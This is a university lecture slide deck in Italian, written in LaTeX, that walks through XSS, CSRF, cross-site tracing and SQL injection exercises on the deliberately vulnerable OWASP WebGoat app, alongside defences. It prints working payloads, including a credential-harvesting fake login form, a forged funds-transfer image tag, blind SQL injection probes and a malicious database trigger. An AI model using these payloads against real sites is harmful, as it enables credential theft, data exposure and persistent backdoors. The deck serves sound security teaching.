\documentclass{beamer}
\usepackage{graphicx}
\usepackage{tikz}
\usepackage[absolute,overlay]{textpos}
\usepackage{listings}
\usepackage{textpos}
\usepackage{verbatim}

\usetheme{Warsaw}

\usecolortheme[RGB={128,0,0}]{structure}

\newtheorem{bersaglio}{Macchina Bersaglio}
\newtheorem{attaccante}{Macchina dell'Attaccante}
\newtheorem{xss}{Cross Site Scripting (XSS)}
\newtheorem{sql}{SQL Injection}
\newtheorem{reflected}{Reflected XSS}
\newtheorem{myexample}{Esempio di Attacco}
\newtheorem{codice}{Listing}

\title{Testing XSS and SQL Injection on OWASP WebGoat}
%\subtitle{}

\author{Loris Fichera}

\institute[] {Universit\`a  degli Studi di Catania\\Dipartimento di Ingegneria Informatica e delle Telecomunicazioni\\Corso di Sicurezza nei Sistemi Informativi}

\date[]
     {06 Marzo 2009}

\begin{document}

\begin{frame}
  \titlepage
\end{frame}

\begin{frame}
  \frametitle{Summary}
  \tableofcontents
\end{frame}

\section{OWASP WebGoat: an overview}
\begin{frame}
  \frametitle{WebGoat}
  WebGoat \`e una web application mantenuta da OWASP.
  \bigskip
  \pause
  \begin{itemize}
  \item sviluppata in Java
    \pause
  \item deliberatamente \emph{insicura}
    \pause
  \item strutturata in \emph{lessons}
  \end{itemize}
  \pause
  \bigskip
  L'utente deve dimostrare di avere compreso un determinato aspetto della sicurezza delle web applications sfruttando una delle vulnerabilit\`a presenti in WebGoat.
\end{frame}

\section{Testing Security Issues}
\begin{frame}
  \frametitle{Aspetti di Web Security Analizzati}
  \begin{xss}
    \emph{Cross-site scripting \`e un tipo di vulnerabilit\`a insita nelle web applications che permettono a utenti maliziosi di iniettare codice nelle pagine web visitate da altri utenti.}\newline
    Esistono due tipi di attacchi XSS:
    \begin{itemize}
    \item Reflected XSS
    \item Stored XSS
    \end{itemize}
  \end{xss}
  \pause
  \medskip
  \begin{sql}
    \emph{SQL Injection \'e una tecnica di code injection che sfrutta una vulnerabilit\`a presente nel database layer di una applicazione.}
  \end{sql}
\end{frame}

\begin{frame}
  \frametitle{I test effettuati: Aspetti Tecnici}
  
  \begin{columns}   
    \begin{column}{0.5\textwidth}
      \begin{bersaglio}
	\begin{itemize}
	\item GNU/Linux Debian Etch r4
	\item JDK 1.6
	\item Tomcat 5.5 
	\item WebGoat 5.2
	\end{itemize}
      \end{bersaglio}
      
      \begin{attaccante}
	\begin{itemize}
	\item GNU/Linux Debian Etch r4
	\item Iceweasel 2.0.0.19
	\end{itemize}
      \end{attaccante}
    \end{column}
    
    \begin{column}{0.3\textwidth}
      \begin{textblock}{4}(10,8.5)
	\begin{picture}(0,0)
	  \centerline{
\includegraphics[width=0.7\textwidth]{images/computer.png}}
	\end{picture}
      \end{textblock} 
      
      \begin{textblock}{4}(10,13)
	\begin{picture}(0,0)
	  \centerline{
\includegraphics[width=0.4\textwidth]{images/crack.jpg}}
	\end{picture}
      \end{textblock} 
    \end{column}
  \end{columns}
  
\end{frame}

\section{Cross Site Scripting}
\begin{frame}
\frametitle{Cross Site Scripting Intro: Hacking YouTube (!)}
      \begin{center}
	
\includegraphics[width=130pt]{images/listen_to_yourself.png}
	\newline
	\begin{tiny}from http://xkcd.com \end{tiny}
      \end{center}
\end{frame}

\begin{frame}
  \frametitle{Stored XSS 1/2}
  L'attaccante inietta del codice all'interno di una pagina web, modificandola in modo \emph{permanente}.
  \pause
  \begin{myexample}
    \begin{tiny}
      Indossiamo i panni di Tom, dipendente dell'azienda ``Goat Hills Financial'' e modifichiamo il nostro profilo: iniettiamo uno script (ad esempio: $<script> alert("Got Ya!"); </script>$) nel campo ``Street'':
      \begin{center}
	
\includegraphics[width=200pt]{images/xss_stored_1.png}
      \end{center}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{Stored XSS 2/2} 
  \begin{myexample}
    \begin{tiny}
      Un altro utente del sistema informativo aziendale, (il nostro capo, ad esempio), rester\`a vittima dell'attacco se tenter\`a di visualizzare il nostro profilo.
      \begin{center}
	
\includegraphics[width=220pt]{images/xss_stored_2.png}
      \end{center}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{Reflected XSS 1/2}
  L'attaccante inietta del codice all'interno di una pagina web, la sua modifica non \`e permanente.
  \pause
  \begin{myexample}
    \begin{tiny}
      Utilizziamo il form di ricerca dipendenti della web application della ``Goat Hills Financial'' e lanciamo un attacco al campo di ricerca, inserendo $<script>alert("Dangerous"); </script>$:
      \begin{center}
	
\includegraphics[width=180pt]{images/xss_reflected_1.png}
      \end{center}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{Reflected XSS 2/2}
  \begin{myexample}
    \begin{tiny}
      La pagina che visualizza i risultati riporta il nome del dipendente cercato. In questo caso, quindi:
      \begin{center}
	
\includegraphics[width=180pt]{images/xss_reflected_2.png}
      \end{center}
      \alert{\`E relativamente semplice ottenere un URL che punti a questa pagina!}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{XSS: Analisi e Contromisure}
  Una web application \`e vulnerabile ad attacchi XSS se:
  \begin{itemize}
  \item non implementa alcun check sugli input
  \item concatena input utente al codice html delle pagine generate dinamicamente
  \end{itemize}
  \pause
  \medskip
  Due possibili contromisure:
  \begin{itemize}
  \item controllo dell'input
  \item controllo del codice html generato dinamicamente
  \end{itemize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{XSS: Controllo dell'Input}
  Aggiungere, allo script che processa l'input, il seguente frammento di codice:
  \begin{codice}
    \begin{semiverbatim}
\uncover<1->{String regex = "[\textbackslash \textbackslash s\textbackslash \textbackslash w-,]*";}
\uncover<2->{String stringToValidate = }
\uncover<2->{       firstName+lastName+ssn+title+phone+}
\uncover<2->{       address1+address2+startDate+ccn+}
\uncover<2->{       disciplinaryActionDate+}
\uncover<2->{       disciplinaryActionNotes+}
\uncover<2->{       personalDescription;}
\uncover<3->{Pattern pattern = Pattern.compile(regex);}
\uncover<3->{\alert{validate(stringToValidate, pattern);}}
    \end{semiverbatim}
  \end{codice}
\end{frame}

\begin{frame}
  \frametitle{XSS: Controllo del codice HTML generato}
  La classe \emph{util.HtmlEncoder} contiene il metodo \emph{encode(String s)}:
  \pause
  \begin{enumerate}
  \item prende in ingresso una stringa s
    \pause
  \item elimina tutti i caratteri \emph{speciali} presenti
    \pause
  \item restituisce la stringa s modificata
  \end{enumerate}
\end{frame}

\begin{frame}
  \frametitle{Phishing 1/4}
  Phishing \`e una delle possibili applicazioni di un attacco XSS:
  \pause
  \begin{myexample}
    \begin{tiny}
      WebGoat fornisce una funzionalit\`a di ricerca all'interno del suo codice sorgente.
      \begin{center}
	
\includegraphics[width=180pt]{images/xss_phishing_1.png}
      \end{center}
      Tale funzionalit\`a \`e vulnerabile ad attacchi XSS.
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Phishing 2/4}
  \begin{myexample}
    \begin{tiny}
      Solleviamo un attacco Reflected XSS inserendo, nel campo di ricerca:
      \begin{semiverbatim}
<script>
 function hack(){ 
   alert("Had this been a real attack... 
          Your credentials were just stolen. 
          User Name = " + document.forms[0].user.value + 
          "Password = " + document.forms[0].pass.value); 
   XSSImage=new Image; 
   XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="
                + document.forms[0].user.value + "&password=" 
                + document.forms[0].pass.value + "";
 } 
</script>
<form><br><br><HR>
 <H3>This feature requires account login:</H3 >
 <br>
 <br>Enter Username:<br>
 <input type="text" id="user" name="user"><br>
 Enter Password:<br><input type="password" name = "pass"><br>
 <input type="submit" name="login" value="login" onclick="hack()">
 </form><br><br><HR>
      \end{semiverbatim}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{Phishing 3/4}
  \begin{myexample}
    \begin{tiny}
      La pagina che visualizza i risultati conterr\`a il form da noi disegnato:
      \begin{center}
	
\includegraphics[width=180pt]{images/xss_phishing_2.png}
      \end{center}
      \alert{L'attaccante potr\`a servirsi di questa pagina per ingannare l'utente e fargli inserire le sue credenziali!}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{Phishing 4/4}
  \begin{myexample}
    \begin{tiny}
      Mettiamoci nei panni della vittima:
      \newline
      \begin{center}
	
\includegraphics[width=180pt]{images/xss_phishing_3.png}
      \end{center}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{Cross Site Request Forgery 1/2}
  Far caricare al browser della vittima una pagina web contenente dei tag immagine con campo ``src'' alterato.
  \pause
  \begin{myexample}
    \begin{tiny}
      WebGoat propone una web application per la gestione dei messaggi di un newsgroup:
      \begin{center}
	
\includegraphics[width=180pt]{images/xss_xsrf_1.png}
      \end{center}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Cross Site Request Forgery 2/2}
  \begin{myexample}
    Solleviamo un attacco Stored XSS e aggiungiamo un messaggio con il seguente codice:
    \begin{semiverbatim}
      <img src="http://localhost/WebGoat/attack?
      Screen=9&menu=900&transferFunds=4000"
      width="1" height="1" />
    \end{semiverbatim}
  \end{myexample}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Cross Site Tracing}
  Sfruttare il comando HTTP {\it TRACE} che permette di recuperare tutti gli headers di una pagina web, compresi quelli relativi alla autenticazione e alla sessione in corso.
  \pause
  \begin{myexample}
    \begin{tiny}
      Solleviamo un attacco Stored XSS e aggiungiamo un messaggio con il seguente codice (works on Microsoft IE 5.0):
      \begin{semiverbatim}
<script type="text/javascript">
if ( navigator.appName.indexOf("Microsoft") !=-1) 
\{var xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
 xmlHttp.open("TRACE", "./", false);
 xmlHttp.send();
\alert{ str1 = xmlHttp.responseText;}
 while (str1.indexOf(``\textbackslash n'') > -1) 
       str1 = str1.replace(``\textbackslash n'',"<br>");
 document.write(str1);
\}
</script>
      \end{semiverbatim}
    \end{tiny}
  \end{myexample}
  \pause
\end{frame}

\begin{frame}
  \frametitle{Cross Site Tracing: Utilizzo del flag HTTPOnly}
  HTTPOnly \`e un attributo di cookie recentemente introdotto da Microsoft:
  \pause
  \begin{itemize}
  \item impedisce l'accesso \emph{in lettura} al cookie
    \pause
  \item impedisce l'accesso \emph{in scrittura} al cookie
    \pause
  \item \alert{non \`e ancora supportato da tutti i browser!}
  \end{itemize}
\end{frame}

\section{SQL Injection}
\begin{frame}
\frametitle{SQL Injection Intro: Exploits of a Mom}
      \begin{center}
	
\includegraphics[width=130pt]{images/exploits_of_a_mom.png}
	\newline
	\begin{tiny}from http://xkcd.com \end{tiny}
      \end{center}
\end{frame}

\begin{frame}
  \frametitle{SQL Injection 1/2}
  L'attaccante sfrutta una falla nella web application per ottenere informazioni sulle tuple contenute nelle tabelle del database.
  \pause
  \begin{myexample}
    \begin{tiny}
      Abbiamo a disposizione una web application - vulnerabile ad attacchi SQL Injection - che, dato il cognome di un cliente, restituisce i numeri di carta di credito ad esso associati. Ad esempio, inserendo ``Smith'':
      \newline
      \begin{center}
	
\includegraphics[width=180pt]{images/sql_injection_1.png}
      \end{center}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}[fragile]
  \frametitle{SQL Injection 2/2}
  %  \begin{myexample}
  \begin{tiny}
    La query con cui il database \`e stato interrogato \`e:
    \begin{codice}
      \begin{semiverbatim}
	SELECT * FROM user_data 
                 WHERE last_name = 'Smith'
      \end{semiverbatim}
    \end{codice}
    \pause
    Attacchiamo il campo ``cognome'': inseriamo come input ``{\it $Smith' or '1' = '1$}''. La web application interrogher\`a il database con la query:
    \begin{codice}
      \begin{semiverbatim}
	SELECT * FROM user\_data 
                 WHERE last\_name = 'Smith'
                 \alert{or '1' = '1'}
      \end{semiverbatim}
    \end{codice}
    \pause
    \alert{La condizione \`e sempre vera!} \newline
  \end{tiny}
%  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{SQL Injection 2/2}
  \begin{myexample}
    \begin{tiny}
      Ecco il risultato:
      \begin{center}
	
\includegraphics[width=180pt]{images/sql_injection_2.png}
      \end{center}
      \alert{Abbiamo ottenuto i numeri di carta di credito di tutti gli utenti!}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}
  \frametitle{SQL Injection: Analisi e Contromisure}
  Una web application che si basa su database \`e vulnerabile ad attacchi SQL Injection se:
  \begin{itemize}
  \item non implementa alcun check sugli input
  \item costruisce le queries per interrogare il database concatenando input utente ad altre stringhe
  \end{itemize}
  \pause
  \medskip
  Tre possibili contromisure:
  \begin{itemize}
  \item \emph{security by obscurity}
  \item controllo dell'input
  \item queries parametrizzate
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{SQL Injection: Security by Obscurity}
  Spesso, in caso di interrogazione del database terminata con un errore, le pagine di una web application riportano il messaggio di errore generato dal DBMS.
  \pause
  \medskip
  \newline
  \alert{Tali informazioni sono preziosissime per un attaccante!}
  \begin{tiny}
    \newline
    Gli indicano l'effetto sortito da eventuali input maliziosi, la struttura delle queries inviate al DBMS, etc...
  \end{tiny}
  \medskip
  \pause
  \newline
  Le pagine web non devono in alcun caso riportare messaggi relativi alle interrogazioni del DBMS.
\end{frame}
  
\begin{frame}[fragile]
  \frametitle{SQL Injection: Queries Parametrizzate 1/2}
  La classe {\it SQLInjection.Login} contiene il codice che si occupa di validare nome utente e password di un dipendente dell'azienda ``Goat Hills Financial''.
  \newline
  \pause
  \medskip
  \`E immediato constatarne la vulnerabilit\`a a SQL Injection:
  \begin{tiny}
    \begin{codice}
      \begin{semiverbatim}
String query = "SELECT * FROM employee WHERE 
                                       userid = " + userId + " 
                                   and password = '" + password + "'";
try
\{
  Statement answer_statement = WebSession.getConnection(s)
      .createStatement(ResultSet.TYPE_SCROLL_INSENSITIVE, 
                       ResultSet.CONCUR_READ_ONLY);
  ResultSet answer_results = answer_statement.executeQuery(query);
  ...
      \end{semiverbatim}
    \end{codice}
  \end{tiny}
\end{frame}

\begin{frame}[fragile]
  \frametitle{SQL Injection: Queries Parametrizzate 2/2}
  Eliminiamo la vulnerabilit\`a costruendo la query in forma \emph{parametrizzata}.
  \begin{tiny}
    \begin{codice}
      \begin{semiverbatim}
String query = "SELECT * FROM employee WHERE userid = ? 
                                         and password = ?";
try
\{
  Connection connection = WebSession.getConnections(s);
  PreparedStatement statement = connection.prepareStatement(
                                query,
                                ResultSet.TYPE_SCROLL_INSENSITIVE,
                                ResultSet.CONCUR_READ_ONLY);
  statement.setString(1, userId);
  statement.setString(2, password);
  ResultSet answer_results = statement.executeQuery();
  ...
      \end{semiverbatim}
    \end{codice}
  \end{tiny}
  I parametri possono essere \emph{tipati} e controllati facilmente.
\end{frame}

\begin{frame}
  \frametitle{Blind SQL Injection 1/3}
  Blind SQL Injection si riferisce agli attacchi SQL Injection sollevati in condizioni di assenza di eventuali messaggi di errore del DBMS.
  \pause
  \begin{myexample}
    \begin{tiny}
      WebGoat propone un form che, preso in ingresso un numero di account, determina se questo \`e valido o no. 
      \begin{center}
	
\includegraphics[width=180pt]{images/sql_injection_blind_1.png}
      \end{center}
      Vogliamo scoprire il valore del campo ``first\_name'' dell'account che ha userid 15613. 
      \newline Lanciamo un attacco Blind SQL Injection al campo ``account number''.
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Blind SQL Injection 2/3}
  Inseriamo un input cos\`i costruito:
  \begin{codice}
    \begin{tiny}
      \begin{semiverbatim}
	101 AND (ascii( substr((SELECT first\_name FROM 
                        user\_data WHERE userid=15613),1 , 1)) $<$ 77 );
      \end{semiverbatim}
    \end{tiny}
  \end{codice}
La risposta alla query sar\`a di tipo booleano. Se ``True'', la web application risponder\`a con il messaggio ``Account Valido'', con il messaggio ``Account non valido'' altrimenti.
\pause
\medskip
\newline
\alert{
  In pratica stiamo verificando se il primo carattere del campo ``first\_name'' della tupla identificata da ``userid = 15613'' ha valore ascii minore di 77 (ovvero, minore di 'M').}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Blind SQL Injection 3/3}
  Andando per tentativi:
  \begin{codice}
    \begin{tiny}
      \begin{semiverbatim}
/* J */
101 AND (ascii( substr((SELECT first_name FROM 
                          user_data WHERE userid=15613),1 , 1)) = 74);
/* o */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),2 , 1)) = 111);
/* e */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),3 , 1)) = 101);
/* s */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),4 , 1)) = 115);
/* p */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),5 , 1)) = 112);
/* h */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),6 , 1)) = 104);
      \end{semiverbatim}
    \end{tiny}
  \end{codice}
  Il valore che volevamo ottenere \`e ``Joesph''.
\end{frame}

\begin{frame}[fragile]
  \frametitle{Database Backdoors}
  I database permettono la creazione di {\it triggers}: {\it stored procedures} da eseguire contestualmente all'esecuzione di altre operazioni.
  \pause
  \medskip
  \newline
  Un attaccante pu\`o sfruttare una vulnerabilit\`a SQL Injection per creare un trigger malizioso!
  \begin{codice}
    \begin{semiverbatim}
      101; CREATE TRIGGER myBackDoor 
           BEFORE INSERT ON employee 
           FOR EACH ROW BEGIN UPDATE employee 
           SET email='john@hackme.com' 
           WHERE userid = NEW.userid
    \end{semiverbatim}
  \end{codice}
\end{frame}
\end{document}